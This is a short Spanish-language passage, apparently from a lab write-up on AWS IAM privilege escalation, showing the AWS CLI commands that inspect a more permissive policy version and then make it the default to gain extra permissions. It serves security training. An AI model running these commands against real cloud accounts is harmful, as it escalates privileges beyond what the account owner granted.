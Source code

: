 Se ve que la política que no está por defecto, tiene mas permisos que la política actual

{% code overflow="wrap" %}
```
aws iam get-policy --policy-arn arn:aws:iam::651927172911:policy/privesc2- SetExistingDefaultPolicyVersion
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (9) (2) (1).png" alt=""><figcaption></figcaption></figure>

Finalmente, se procede a realizar el cambio de la política por la versión con más permisos

{% code overflow="wrap" %}
```
aws iam set-default-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc2- SetExistingDefaultPolicyVersion --version-id v2 --profile privesc2
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>
